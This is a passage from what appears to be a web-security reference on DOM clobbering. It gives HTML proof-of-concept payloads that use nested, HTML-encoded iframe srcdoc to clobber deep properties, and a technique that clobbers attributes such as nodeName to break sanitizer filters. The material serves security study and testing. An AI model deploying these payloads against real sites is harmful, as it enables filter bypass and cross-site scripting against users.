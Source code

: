 ```html
<iframe name="x" srcdoc="<a id=y href=controlled></a>"></iframe>
<style>
  @import "https://google.com";
</style>
<script>
  alert(x.y) //controlled
</script>
```

> [!WARNING]
> The style tag is used to **give enough time to the iframe to render**. Without it you will find an alert of **undefined**.

To clobber deeper attributes, you can use **iframes with html encoding** this way:

```html
<iframe
  name="a"
  srcdoc="<iframe srcdoc='<iframe name=c srcdoc=<a/id=d&amp;amp;#x20;name=e&amp;amp;#x20;href=\controlled&amp;amp;gt;<a&amp;amp;#x20;id=d&amp;amp;gt; name=d>' name=b>"></iframe>
<style>
  @import "https://google.com";
</style>
<script>
  alert(a.b.c.d.e) //controlled
</script>
```

### **Filter Bypassing**

If a filter is **looping** through the **properties** of a node using something like `document.getElementByID('x').attributes` you could **clobber** the attribute **`.attributes`** and **break the filter**. Other DOM properties like **`tagName`** , **`nodeName`** or **`parentNode`** and more are also **clobberable**.

```html
<form id="x"></form>
<form id="y">
  <input name="nodeName" />
</form>
<script>
  console.log(document.getElementById("x").nodeName) //FORM
  console.log(document.getElementById("y").nodeName) //[object HTMLInputElement]
</script>
```

## **Clobbering `window.someObject`**

In JavaScript it's common to find:

```javascript
var someObject = window.someObject || {}
```
